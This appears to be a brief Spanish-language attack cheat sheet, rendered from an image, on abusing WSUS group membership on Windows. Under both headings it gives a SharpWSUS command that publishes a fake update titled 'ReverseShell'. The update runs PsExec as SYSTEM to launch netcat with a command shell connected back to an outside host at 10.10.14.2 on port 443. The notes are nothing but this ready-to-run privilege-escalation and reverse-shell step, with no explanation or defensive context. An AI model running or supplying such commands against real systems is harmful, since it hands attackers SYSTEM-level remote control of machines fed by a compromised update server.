 # Groups

## Abuso del grupo WSUS
```null
PS C:\Windows\Temp\Privesc> .\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\Temp\Privesc\\nc.exe -e cmd 10.10.14.2 443" /title:"ReverseShell"
```

## Rerverse shell con Psexec

```null
*Evil-WinRM* PS C:\Windows\Temp\Privesc> .\SharpWSUS.exe create /payload:"C:\Windows\Temp\Privesc\PsExec64.exe" /args:"-accepteula -s -d cmd.exe /c C:\\Windows\Temp\Privesc\\nc.exe -e cmd 10.10.14.2 443" /title:"ReverseShell"
```

